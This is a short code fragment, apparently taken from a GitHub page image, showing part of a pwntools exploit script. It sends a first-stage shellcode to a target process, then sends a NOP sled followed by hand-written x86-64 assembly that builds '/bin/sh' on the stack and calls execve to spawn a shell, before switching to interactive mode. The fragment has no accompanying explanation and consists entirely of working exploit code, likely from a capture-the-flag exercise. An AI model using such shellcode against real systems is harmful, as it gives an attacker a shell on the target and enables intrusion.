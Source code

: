 ```py
p.sendline(shellcode)
sleep(0.1)
shellcode_part2 = '''
sub rsp, 0x100
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi
push rsi
push 8
pop rsi
add rsi, rsp
push rsi
mov rsi, rsp
xor edx, edx

push 59
pop rax
syscall
'''
p.sendline(b'\x90' * 0x20 + asm(shellcode_part2))
p.interactive()
```
